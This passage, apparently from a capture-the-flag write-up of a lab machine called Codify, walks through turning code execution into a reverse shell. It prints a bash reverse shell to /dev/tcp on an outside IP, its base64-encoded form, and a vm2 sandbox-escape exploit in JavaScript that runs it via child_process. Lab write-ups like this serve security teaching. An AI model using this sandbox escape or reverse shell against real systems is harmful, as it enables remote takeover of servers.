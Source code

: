 ![Codify main page](/assets/img/Codify/Codify_03.png)

Now that we have proof of code execution we needed to upgrade this to a full reverse shell

```
echo -n '/bin/bash -l > /dev/tcp/10.10.14.124/443 0<&1 2>&1' | base64

```

this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTI0LzQ0MyAwPCYxIDI+JjE=
```

Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTI0LzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash
```

when putting this in our previous exploit you'd end up with the following code 

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTI0LzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;
```
## Lateral movement
